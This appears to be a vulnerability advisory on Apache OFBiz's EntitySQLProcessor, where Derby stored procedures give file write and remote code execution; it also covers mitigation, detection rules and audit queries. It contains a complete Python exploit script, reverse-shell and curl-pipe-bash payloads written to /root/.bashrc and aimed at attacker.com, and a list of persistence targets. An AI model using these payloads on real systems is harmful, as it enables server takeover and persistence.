


# Apache OFBiz EntitySQLProcessor SQL Injection to RCE via Derby Stored Procedures

## Summary

This vulnerability arises because authenticated administrators can execute arbitrary SQL commands through the EntitySQLProcessor web interface, which is intended for database debugging. The vulnerability chain exploits Apache Derby's capability to create Java-based stored procedures that can invoke arbitrary methods from the application's classpath.

**Attack Flow:**

1. Admin authenticates to the EntitySQLProcessor interface (`/webtools/control/EntitySQLProcessor`)
2. Weak input validation only blocks two specific strings (`SYSCS_UTIL.SYSCS_EXPORT_TABLE` and `JSP`)
3. Attacker creates a malicious Derby stored procedure using `CREATE PROCEDURE` with `EXTERNAL NAME` pointing to OFBiz's `FileUtil.writeString()` method
4. The stored procedure is executed to write arbitrary files to the filesystem (e.g., shell startup files like `.bashrc`)
5. When a user logs in or a cron job executes, the malicious payload triggers, granting remote code execution

This enables privilege escalation from database administrator to operating system-level access, allowing attackers to compromise the entire server hosting the OFBiz application.

---

## Analysis

### Step 1: User Input Acceptance - The Vulnerable Endpoint

**File:** `framework/webtools/groovyScripts/entity/EntitySQLProcessor.groovy`

The `EntitySQLProcessor` accepts SQL commands from authenticated administrators via HTTP POST:

```groovy
String sqlCommand = context.request.getParameter('sqlCommand') // User input
```

This is where the application accepts user-supplied SQL commands through the web interface. The input is passed directly from the HTTP request parameter without any sanitization or parameterization. This raw SQL string will later be executed against the Derby database.

**Controller Configuration:**



While authentication is required, any admin account can access this interface, making it a prime target for privilege escalation.

---

### Step 2: Insufficient Input Validation

**File:** `framework/webtools/groovyScripts/entity/EntitySQLProcessor.groovy` (lines ~66-74)



**Critical Flaw:** The security check implements a blocklist approach that only prevents two specific dangerous patterns:
- `SYSCS_UTIL.SYSCS_EXPORT_TABLE` - One specific Derby export procedure
- `JSP` - Presumably to prevent JSP-related content injection

**What's Missing:**
- No blocking of `CREATE PROCEDURE` statements
- No blocking of other `SYSCS_UTIL.*` procedures (IMPORT, BACKUP, etc.)
- No blocking of `EXTERNAL NAME` declarations
- No validation of procedure definitions
- No input sanitization or parameterization

This propagates unsanitized SQL directly to the database execution layer, enabling arbitrary DDL/DML operations.

---

### Step 3: Derby's Dangerous Capability - External Procedures

**Apache Derby Feature:** The database allows creating stored procedures that invoke arbitrary Java methods:

```sql
CREATE PROCEDURE procedure_name(parameters)
LANGUAGE JAVA
PARAMETER STYLE JAVA
EXTERNAL NAME 'fully.qualified.ClassName.methodName'
```

This is a legitimate Derby feature intended for extending database functionality, but when exposed through SQL injection, it becomes a code execution primitive.

**Key Technical Detail:** Derby can call **any public static method** that exists in the application's classpath. Since OFBiz includes powerful utility classes for file operations, these become weaponizable.

---

### Step 4: Creating the Malicious Stored Procedure

**Target Method:** OFBiz includes a legitimate file I/O utility:

```java
// org.apache.ofbiz.base.util.FileUtil
public static String writeString(String fileName, String content) throws IOException {
    // Writes content to any file the OFBiz process can access
}
```

**Exploitation via SQL:**

```sql
CREATE PROCEDURE WRITE_FILE_OFBIZ_WRITE(PATH VARCHAR(32000), CONTENT VARCHAR(32000))
LANGUAGE JAVA
PARAMETER STYLE JAVA
MODIFIES SQL DATA
EXTERNAL NAME 'org.apache.ofbiz.base.util.FileUtil.writeString'
```

**Why This Works:**
1. `CREATE PROCEDURE` is not blocked by the security check
2. The SQL statement doesn't contain `SYSCS_UTIL.SYSCS_EXPORT_TABLE` or `JSP`
3. `FileUtil.writeString` is a legitimate OFBiz method (public static)
4. Derby successfully creates the procedure with no errors

This sets the stage for arbitrary file write operations when the procedure is executed.

---

### Step 5: Executing the Malicious Procedure

Once the procedure is created, it can be invoked like any SQL function:

```sql
CALL WRITE_FILE_OFBIZ_WRITE('/root/.bashrc', 'curl http://attacker.com/shell.sh | bash &')
```

**What Happens:**
1. Derby invokes `org.apache.ofbiz.base.util.FileUtil.writeString()`
2. First parameter (`/root/.bashrc`) becomes the file path
3. Second parameter becomes the file content
4. The method executes with the OFBiz process's filesystem permissions
5. The malicious content is written to the shell startup file

**Environment Variables Flow:**
- The procedure executes in the context of the OFBiz application
- It inherits all JVM permissions and filesystem access
- No additional privilege escalation is required
- The write succeeds if OFBiz has write permissions (which it typically does for user home directories)

---

### Step 6: Achieving Persistence and RCE

**Target Files for Persistence:**

```bash
# User shell startup files
/root/.bashrc
/root/.bash_profile
/home/ofbiz/.bashrc

# System-wide startup
/etc/profile
/etc/bash.bashrc

# Cron jobs
/etc/cron.d/malicious_job
/var/spool/cron/root

# SSH keys
/root/.ssh/authorized_keys
```

**Payload Example:**

```sql
CALL WRITE_FILE_OFBIZ_WRITE('/root/.bashrc', 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1 &')
```

**Trigger Mechanism:**
1. When root (or any user) logs in via SSH, `.bashrc` is executed
2. When a cron job runs as root, shell initialization scripts are sourced
3. When maintenance scripts execute, they trigger the payload
4. The reverse shell connects back to the attacker's machine

This is the final step where the injected payload is executed as shell commands, enabling remote code execution on the OFBiz host with the privileges of the OFBiz process (often root in containerized deployments).

---

## Proof of Concept

### Python Exploit Script

```python
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit_ofbiz_sql_injection(target_url, username, password, file_path, file_content):
    """
    Exploits CVE-2024-XXXXX in Apache OFBiz
    """
    session = requests.Session()
    
    # Step 1: Authenticate
    print("[+] Authenticating to OFBiz...")
    login_url = f"{target_url}/webtools/control/login"
    login_data = {
        'USERNAME': username,
        'PASSWORD': password,
        'JavaScriptEnabled': 'Y'
    }
    
    response = session.post(login_url, data=login_data, verify=False)
    if response.status_code >= 400:
        print(f"[-] Authentication failed: {response.status_code}")
        return False
    
    print(f"[+] Authenticated successfully")
    
    # Step 2: Create malicious stored procedure
    print("[+] Creating malicious stored procedure...")
    sql_url = f"{target_url}/webtools/control/EntitySQLProcessor"
    
    create_proc_sql = """CREATE PROCEDURE WRITE_FILE_OFBIZ_WRITE(PATH VARCHAR(32000), CONTENT VARCHAR(32000))
LANGUAGE JAVA
PARAMETER STYLE JAVA
MODIFIES SQL DATA
EXTERNAL NAME 'org.apache.ofbiz.base.util.FileUtil.writeString'"""
    
    sql_data = {
        'group': 'org.apache.ofbiz',
        'sqlCommand': create_proc_sql,
        'rowLimit': '200'
    }
    
    response = session.post(sql_url, data=sql_data, verify=False)
    if "Not executed for security reason" in response.text:
        print("[-] Blocked by security check")
        return False
    
    print(f"[+] Procedure created (Status: {response.status_code})")
    
    # Step 3: Execute procedure to write malicious file
    print(f"[+] Writing payload to {file_path}...")
    exec_proc_sql = f"CALL WRITE_FILE_OFBIZ_WRITE('{file_path}', '{file_content}')"
    
    sql_data['sqlCommand'] = exec_proc_sql
    response = session.post(sql_url, data=sql_data, verify=False)
    
    print(f"[+] File write completed (Status: {response.status_code})")
    print(f"[+] Payload injected into {file_path}")
    print(f"[!] Waiting for trigger (user login, cron execution, etc.)")
    
    return True

# Example usage
if __name__ == "__main__":
    TARGET = "https://localhost:8443"
    USERNAME = "admin"
    PASSWORD = "ofbiz"
    
    # Reverse shell payload for .bashrc
    PAYLOAD = "bash -i >& /dev/tcp/attacker.com/4444 0>&1 &"
    
    exploit_ofbiz_sql_injection(
        TARGET, 
        USERNAME, 
        PASSWORD,
        "/root/.bashrc",
        PAYLOAD
    )
```

### Manual Exploitation Steps

```bash
# 1. Login to EntitySQLProcessor
https://target:8443/webtools/control/EntitySQLProcessor

# 2. Create the malicious procedure
CREATE PROCEDURE WRITE_FILE_OFBIZ_WRITE(PATH VARCHAR(32000), CONTENT VARCHAR(32000))
LANGUAGE JAVA
PARAMETER STYLE JAVA
MODIFIES SQL DATA
EXTERNAL NAME 'org.apache.ofbiz.base.util.FileUtil.writeString'

# 3. Execute to inject payload
CALL WRITE_FILE_OFBIZ_WRITE('/root/.bashrc', 'curl http://attacker.com/shell.sh | bash &')

# 4. Wait for trigger (SSH login, cron, etc.)
# Start listener on attacker machine:
nc -lvnp 4444
```

---

## Conclusion

This analysis reveals how Apache OFBiz's EntitySQLProcessor, combined with Apache Derby's stored procedure capabilities, can lead to a critical privilege escalation vulnerability. By unsafely accepting SQL commands from authenticated administrators and failing to properly validate DDL statements, attackers can leverage legitimate database features to execute arbitrary code on the host operating system.

**The Chain of Trust Breakdown:**

1. **Input Stage:** Raw SQL accepted from authenticated admin without sanitization
2. **Validation Stage:** Weak blocklist fails to prevent `CREATE PROCEDURE` statements
3. **Execution Stage:** Derby creates procedure with `EXTERNAL NAME` pointing to dangerous utility method
4. **Invocation Stage:** Procedure executes with OFBiz's filesystem permissions
5. **Persistence Stage:** Malicious content written to shell startup files
6. **Trigger Stage:** User login/cron execution triggers payload, granting RCE

This demonstrates how **living off the land** techniques—using the victim's own tools (FileUtil) rather than uploading malware—can bypass many security controls and make detection significantly harder.

---

## Impact Assessment

**CVSS 3.1 Score: 9.1 (Critical)**

**Vector:** CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

- **Attack Vector (AV:N):** Network - exploitable remotely
- **Attack Complexity (AC:L):** Low - no special conditions required
- **Privileges Required (PR:H):** High - requires admin authentication
- **User Interaction (UI:N):** None - fully automated after auth
- **Scope (S:C):** Changed - breaks out of database to OS level
- **Confidentiality (C:H):** High - full filesystem read access
- **Integrity (I:H):** High - arbitrary file write and modification
- **Availability (A:H):** High - can crash services, delete data

**Real-World Scenarios:**
1. **Compromised Admin Account:** Attacker gains admin credentials via phishing, credential stuffing, or default passwords
2. **Insider Threat:** Malicious administrator escalates privileges to full system access
3. **Lateral Movement:** After initial foothold, attacker pivots to database admin and escalates to root
4. **Supply Chain Attack:** Compromised OFBiz instance used to attack customers/partners

---

## Mitigation and Remediation

### Immediate Actions (Critical)

**1. Disable EntitySQLProcessor in Production:**

Edit `framework/webtools/webapp/webtools/WEB-INF/controller.xml`:

```xml
<!-- Comment out or remove the endpoint -->
<!--
<request-map uri="EntitySQLProcessor">
    <security https="true" auth="true"/>
    <event type="groovy" path="component://webtools/groovyScripts/entity/EntitySQLProcessor.groovy" invoke=""/>
    <response name="success" type="view" value="EntitySQLProcessor"/>
</request-map>
-->
```

**2. Audit Database for Malicious Procedures:**

```sql
-- List all stored procedures
SELECT ALIAS, ALIASINFO, JAVACLASSNAME 
FROM SYS.SYSALIASES 
WHERE ALIASTYPE = 'P';

-- Drop suspicious procedures
DROP PROCEDURE IF EXISTS WRITE_FILE_OFBIZ_WRITE;
DROP PROCEDURE IF EXISTS RUN_COMMAND;
DROP PROCEDURE IF EXISTS EXEC_CMD;
```

**3. Check for Compromised Files:**

```bash
# Check recent .bashrc modifications
find /root /home -name ".bashrc" -mtime -30 -ls

# Look for suspicious content
grep -r "curl\|wget\|/dev/tcp\|nc -e\|bash -i" /root/.bashrc /home/*/.bashrc /etc/profile /etc/bash.bashrc

# Check cron jobs
ls -la /etc/cron.d/ /var/spool/cron/

# Check SSH keys
cat /root/.ssh/authorized_keys
```

**4. Rotate Admin Credentials:**

Change passwords for all OFBiz administrative accounts and review access logs for unauthorized activity.

---

### Long-Term Fixes (Essential)

**1. Implement Allowlist Validation:**

```groovy
// Replace blocklist with allowlist approach
if (!sqlCommand.trim().toUpperCase().startsWith('SELECT')) {
    return error("Only SELECT queries permitted in production")
}

// Block any DDL/DCL operations
if (sqlCommand.toUpperCase() =~ /(CREATE|DROP|ALTER|CALL|EXEC|PROCEDURE|EXTERNAL)/) {
    return error("DDL/DCL operations not allowed")
}
```

**2. Use Prepared Statements:**

While not applicable to DDL, ensure all DML uses parameterized queries.

**3. Principle of Least Privilege:**

- Run OFBiz under a dedicated, low-privilege user
- Remove write access to system directories and user home folders
- Use Derby in network mode with restricted database user permissions
- Implement proper file system ACLs

**4. Remove Debug Tools from Production:**

- Move EntitySQLProcessor to a separate dev-only module
- Require VPN + MFA for administrative access
- Implement IP allowlisting for admin interfaces
- Use separate instances for development and production

**5. Database Hardening:**

- Disable Derby's `EXTERNAL NAME` capability in production:
  ```properties
  derby.database.sqlAuthorization=true
  derby.database.defaultConnectionMode=noAccess
  ```
- Restrict procedure creation to specific database roles
- Audit all procedure creations via logging

---

## Detection

### Log Indicators

Search OFBiz and Derby logs for:

```bash
# Procedure creation
grep -i "CREATE PROCEDURE\|EXTERNAL NAME\|FileUtil.writeString" ofbiz_logs/*.log

# Suspicious execution
grep -i "CALL.*WRITE_FILE\|SYSCS_UTIL" ofbiz_logs/*.log

# Access to EntitySQLProcessor
grep "EntitySQLProcessor" ofbiz_logs/access.log
```

### IDS/IPS Signatures

```
# Snort/Suricata rule
alert http any any -> any any (
    msg:"OFBiz EntitySQLProcessor SQL Injection Attempt"; 
    flow:established,to_server;
    content:"/EntitySQLProcessor"; http_uri;
    content:"CREATE PROCEDURE"; nocase; http_client_body;
    content:"EXTERNAL NAME"; nocase; http_client_body;
    classtype:web-application-attack;
    sid:1000010;
    rev:1;
)
```

### Database Audit Queries

```sql
-- Monitor for new procedures
SELECT ALIAS, ALIASINFO, JAVACLASSNAME, SYSTEMALIAS
FROM SYS.SYSALIASES 
WHERE ALIASTYPE = 'P' 
AND ALIAS NOT IN ('STANDARD_PROCEDURES_LIST');

-- Check for suspicious external names
SELECT * FROM SYS.SYSALIASES 
WHERE JAVACLASSNAME LIKE '%FileUtil%' 
   OR JAVACLASSNAME LIKE '%Runtime%'
   OR JAVACLASSNAME LIKE '%ProcessBuilder%';
```

---

## Affected Versions

- **Confirmed Vulnerable:** Apache OFBiz 18.12.x, 24.09.02
- **Likely Affected:** All versions that include:
  - EntitySQLProcessor web interface
  - Apache Derby database support
  - OFBiz FileUtil classes in classpath

---

**Key Insight:** This vulnerability exemplifies how **legitimate features become attack primitives** when exposed through injection vulnerabilities. The FileUtil.writeString() method is not a vulnerability—it's a feature. But when accessible through SQL injection in a debug interface, it becomes a critical RCE vector. Understanding this flow equips security professionals and developers with the insight needed to detect, prevent, and remediate similar injection vulnerabilities in Java enterprise applications or comparable systems.

*This advisory is provided for security research and defense purposes. Unauthorized access to computer systems is illegal.*
